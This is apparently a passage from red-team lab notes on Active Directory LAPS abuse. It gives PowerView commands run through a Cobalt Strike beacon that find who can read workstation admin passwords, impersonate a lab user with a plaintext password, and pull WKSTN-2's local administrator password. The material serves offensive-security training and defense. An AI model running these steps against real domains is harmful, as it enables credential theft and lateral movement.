 If you don't have access to the native LAPS cmdlets, PowerView can find the principals that have `ReadPropery` on `ms-Mcs-AdmPwd`. There are also other tools such as the [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit).

```
beacon> powershell Get-DomainObjectAcl -SearchBase "LDAP://OU=Workstations,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -like "*ReadProperty*" } | select ObjectDN, SecurityIdentifier

ObjectDN                                              SecurityIdentifier
--------                                              ------------------
OU=Workstations,DC=dev,DC=cyberbotic,DC=io            S-1-5-21-3263068140-2042698922-2891547269-1125
CN=WKSTN-1,OU=Workstations,DC=dev,DC=cyberbotic,DC=io S-1-5-21-3263068140-2042698922-2891547269-1125
CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io S-1-5-21-3263068140-2042698922-2891547269-1125

beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1125
DEV\1st Line Support

beacon> make_token DEV\jking Purpl3Drag0n
beacon> powershell Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd

ms-mcs-admpwd 
------------- 
P0OPwa4R64AkbJ
```